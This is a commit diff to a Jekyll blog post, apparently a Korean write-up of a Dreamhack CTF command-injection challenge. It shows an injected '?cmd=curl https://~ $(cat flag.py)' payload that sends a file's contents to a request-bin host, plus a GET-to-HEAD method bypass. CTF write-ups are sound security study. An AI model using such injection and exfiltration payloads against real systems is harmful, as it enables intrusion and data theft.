

Before and after one commit to jjjj0202/jjjj0202.github.io, a Jekyll site: the page built from two-sidebar.html, in a window 1280 px wide and 900 px high, scrolled down 1978 px. Shown: the whole window, without its empty margins (128-1151 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
250319-test
test

```diff
--- a/_posts/2025-03-13-pp2.markdown
+++ b/_posts/2025-03-13-pp2.markdown
@@ -6,7 +6,7 @@
 categories: jekyll update
 ---
 <p>안녕하세요! 이번 문제는 드림핵 Epilogue에 있는 2번째 CTF입니다.</p>
-<img src="/assets/images/p2-1.PNG" style="max-width: 100%; height: auto;">
+<img src="/assets/images/P2-1.PNG" style="max-width: 100%; height: auto;">
 <p>페이지를 보면 "cmd=?"가 출력되있으며, command injection이라는 것을 확인이 가능합니다.</p>
 <img src="/assets/images/p2-2.PNG" style="max-width: 100%; height: auto;">
 <p>하지만 url로 "cat flag.py"를 입력하면 문자 그대로 랜딩되는 것을 알 수 있습니다.</p>
@@ -16,7 +16,7 @@
 <p>허용된 HEAD를 사용해서 전송해보니, 정상적으로 전송되는 것을 확인 가능합니다. 하지만 HEAD는 응답을 받지 못하는데요.</p>
 <img src="/assets/images/p2-5.PNG" style="max-width: 100%; height: auto;">
 <p>저는 요청을 다른 IP 또는 URL로 커맨드 결과를 전송할수 있는 curl 커맨드 와, 그 요청을 받을 수 있는 드림핵에서 지원해주는 Request bin이라는 페이지를 사용하였습니다.</p>
-<img src="/assets/images/p2-7.png" style="max-width: 100%; height: auto;">
-<p>?cmd=curl -X -POST https://~ $(cat flag.py)를 인코딩하여 버프 스위트로 GET을 HEAD로 변경하여 전송합니다.</p>
-<img src="/assets/images/p2-8.png" style="max-width: 100%; height: auto;">
+<img src="/assets/images/p2-7.PNG" style="max-width: 100%; height: auto;">
+<p>?cmd=curl https://~ $(cat flag.py)를 인코딩하여 버프 스위트로 GET을 HEAD로 변경하여 전송합니다.</p>
+<img src="/assets/images/p2-8.PNG" style="max-width: 100%; height: auto;">
 <p>Request bin 페이지를 보면 flag값을 수신한 것을 볼 수 있습니다.</p>
```
Also changed, not shown: assets/images/p2-8.PNG.
